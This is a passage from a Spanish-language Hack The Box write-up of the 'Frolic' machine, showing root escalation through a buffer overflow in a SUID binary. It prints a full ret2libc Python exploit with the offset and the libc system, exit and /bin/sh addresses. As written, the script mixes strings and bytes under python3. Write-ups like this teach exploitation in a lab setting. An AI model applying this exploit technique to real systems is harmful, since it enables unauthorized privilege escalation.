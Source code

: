 generamos caracteres con la herramienta

![](htb-writeup-frolic/escalada6.png)

ejecutamos el programa pasando esto caracteres

![](htb-writeup-frolic/escalada11.png)

le preguntamos al programa cuantos caracteres son antes del `eip`

![](htb-writeup-frolic/escalada7.png)

y el programa nos dice cuanto caracteres debo poner antes de sobre escribir el `eip` y listo, tenemos todo lo necesario
para empezar a hacer el script.

```python

#!/usr/bin/python3

from struct import pack

offset = 52
jump = "A" * offset

# ldd /home/ayush/.binary/rop 
#        linux-gate.so.1 =>  (0xb7fda000)
#        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
#		/lib/ld-linux.so.2 (0xb7fdb000)

libc_addr = 0xb7e19000

# readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system| exit"
#		141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
#		1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
#		15ba0b /bin/sh

system_addr = pack("<I", libc_addr + 0x0003ada0) # agregar el 0x
exit_addr = pack("<I", libc_addr + 0x0002e9d0)   # agregar el 0x
sh_addr = pack("<I", libc_addr + 0x0015ba0b)     # agregar el 0x00

payload = jump + system_addr + exit_addr + sh_addr

print(payload)
```
{: .nolineno}

solo queda ejecutar el binario y pasarle la cadena que genera nuestro script

![](htb-writeup-frolic/escalada8.png)

y estamos dentro

### flag como root

![](htb-writeup-frolic/escalada9.png)
